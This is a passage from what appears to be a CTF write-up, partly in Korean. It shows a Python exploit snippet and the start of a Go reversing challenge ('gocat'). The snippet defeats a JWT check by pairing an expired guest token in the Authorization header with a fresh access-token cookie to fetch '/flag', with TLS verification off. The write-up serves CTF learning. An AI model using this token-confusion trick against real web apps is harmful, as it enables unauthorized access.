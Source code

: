 ```python
exploit_jwt     = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE1OTc4NTc4MzcsIm5iZiI6MTU5Nzg1NzgzNywianRpIjoiMzQyYjNlZTItMzQ1My00Y2IzLWFjYzgtZjMxMzcyYjU3NGEwIiwiZXhwIjoxNTk3ODU3ODAwLCJpZGVudGl0eSI6Imd1ZXN0IiwiZnJlc2giOmZhbHNlLCJ0eXBlIjoiYWNjZXNzIiwiY3NyZiI6IjRmNGE4YTk3LTdiNDEtNGZiMy1iYzcxLTE0YjBiODM3ZmQyNSJ9.pJYyoZjq-6l06TQ6ugfQZjoHtSClEhW_6AvXzYjAQM8" # expired
exploit_headers = {
    "Authorization" : f"Bearer {exploit_jwt}",
    "Cookie"        : f"access_token_cookie={new}"
}

res     = requests.get(url=url + "flag", headers=exploit_headers, verify=False)

print(res.text)
```


<br/>


<br/>



# 🖥️ REVERSING

## gocat

---

![/assets/bob/bob945.png](/assets/bob/bob945.png)

```
golang 리버싱 & 간단한 역연산 / 0 solver
```
- 주어진 문제 파일을 다운로드받고 바이너리를 ida로 열게되면 아래와 같이 심볼이 살아있지 않은 것처럼 보인다.
